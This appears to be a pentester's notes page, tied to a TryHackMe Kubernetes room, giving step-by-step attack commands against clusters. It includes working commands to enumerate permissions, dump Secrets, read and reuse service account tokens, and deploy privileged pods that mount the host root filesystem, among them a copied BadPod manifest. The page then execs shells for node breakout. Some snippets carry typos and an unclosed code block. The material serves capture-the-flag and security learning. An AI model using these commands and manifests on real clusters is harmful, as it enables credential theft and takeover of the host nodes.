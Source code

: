 
For [[Kubernetes]] information follow the link

No `microk8s` no problem get official `kubectl` binary here: [Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/); official `curl` commandage..
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# ARM4
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl"

```

Enumerate permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

Enumerate pods and namespaces, image name
```bash
env # services are often stored as environment variables

microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml # get the image: $field of current pod
microk8s kubectl get nodes
microk8s kubectl get deployments
microk8s kubectl get services
microk8s kubectl get ingress
microk8s kubectl get jobs
```

Find Secrets - secret values in resources called Secrets that get mounted into pods as either environment variables or files
```bash
kubectl get secrets
kubectl describe secret $secretName
kubectl get secret $secretName -o 'json'
```

Token Abuse
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
./kubectl get pods --token=${TOKEN}
./kubectl get serviceaccount --token=${TOKEN}
# execute bash on a pod
/kubectl exec -it $pod --token=${TOKEN} -- /bin/bash
```


####  Make a pod and mount away!

May require token
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
# Get the image for privesc.yml
kubectl get pods --all-namespaces -o jsonpath="{.items[*].spec.containers[*].image}" --token=${TOKEN} | tr -s '[[:space:]]' '\n' | sort | uniq -c

```
[List all container images in all namespaces](https://kubernetes.io/docs/tasks/access-application-cluster/list-all-running-container-images/)

Create a YAML file to create a pod to run as root - named kubeRevShell.yaml - [prettifer](https://onlineyamltools.com/prettify-yaml) 
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:sed 
  containers:
    - name: shell
      image: # GET THE IMAGE NAME OF CURRENT POD
      # imagePullPolicy: IfNotPresent 
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```

[BishopFox BadPod.yml](https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml)
```yml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent 
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```



Beware:
`name:` must be a lowercase RFC 1123 label.

Apply this configuration
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Check the status of the pod
```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```
https://tryhackme.com/room/insekube
Exec a very minimal shell, works as nested `nc` no tty... 
```bash
./kubectl exec some-pod -n kube-system --stdin --tty -- /bin/bash
# Or
./kubectl exec -it some-pod --token=${TOKEN} -- /bin/bash
```
```

Clean up yourself 
```bash
./kubectl delete -f kubeShell.yaml
```

#### Kubernetes Token Abuse

`cat /var/run/secrets/kubernetes.io/$account/token`

Pod breakout

Privilege Escape

Cloud Hackinghttps://tryhackme.com/room/insekube

## References

[Online YAML prettifier](https://onlineyamltools.com/prettify-yaml)
[Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/);
[THM Insekube Room](https://tryhackme.com/room/insekube)